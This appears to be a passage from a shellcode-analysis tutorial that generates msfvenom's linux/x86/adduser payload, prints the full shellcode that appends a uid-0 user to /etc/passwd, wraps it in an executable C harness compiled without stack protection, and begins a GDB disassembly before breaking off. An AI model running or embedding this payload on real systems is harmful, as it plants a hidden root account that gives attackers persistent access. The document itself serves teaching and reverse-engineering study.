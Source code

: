   

    
    
    root@kali:~/Desktop/SLAE# msfvenom -p linux/x86/adduser USER=abatchy PASS=killem -f c  
    No platform was selected, choosing Msf::Module::Platform::Linux from the payload  
    No Arch selected, selecting Arch: x86 from the payload  
    No encoder or badchars specified, outputting raw payload  
    Payload size: 94 bytes  
    Final size of c file: 421 bytes  
    unsigned char buf[] =   
    "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"  
    "\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"  
    "\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x25\x00\x00\x00\x61\x62"  
    "\x61\x74\x63\x68\x79\x3a\x41\x7a\x62\x47\x66\x50\x36\x38\x38"  
    "\x4e\x74\x61\x2e\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69"  
    "\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a"  
    "\x01\x58\xcd\x80";  
    

  
Next, let's put the shellcode inside a C wrapper.  

    
    
    /*  
     adduserWrapper.c  
    By Abatchy  
    gcc adduserWrapper.c -fno-stack-protector -z execstack -o adduserWrapper.out  
    */  
      
    #include <stdio.h>  
    #include <string.h>  
      
    unsigned char buf[] =   
    "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51"  
    "\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63"  
    "\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x25\x00\x00\x00\x61\x62"  
    "\x61\x74\x63\x68\x79\x3a\x41\x7a\x62\x47\x66\x50\x36\x38\x38"  
    "\x4e\x74\x61\x2e\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69"  
    "\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a"  
    "\x01\x58\xcd\x80";  
      
    int main()  
    {  
        printf("Shellcode size: %d\n", strlen(buf));  
        int (*ret)() = (int(*)())buf;  
        ret();  
    }  
    

Compile, run GDB and break on shellcode.  
  

    
    
    root@ubuntu:~/Desktop/workspace# gcc adduserWrapper.c -fno-stack-protector -z execstack -o adduserWrapper.out  
    root@ubuntu:~/Desktop/workspace# chmod 777 adduserWrapper.out   
    root@ubuntu:~/Desktop/workspace# gdb -q adduserWrapper.out   
    Reading symbols from adduserWrapper.out...(no debugging symbols found)...done.  
    (gdb) disass main  
    Dump of assembler code for function main:  
       0x0804844d <+0>: push   ebp  
       0x0804844e <+1>: mov    ebp,esp  
       0x08048450 <+3>: and    esp,0xfffffff0  
       0x08048453 <+6>: sub    esp,0x20  
       0x08048456 <+9>: mov    DWORD PTR [esp],0x804a040  
       0x0804845d <+16>: call   0x8048330 <strlen@plt>  
       0x08048462 <+21>: mov    DWORD PTR [esp+0x4],eax  
       0x08048466 <+25>: mov    DWORD PTR [esp],0x8048520  
       0x0804846d <+32>: call   0x8048310 <printf@plt>  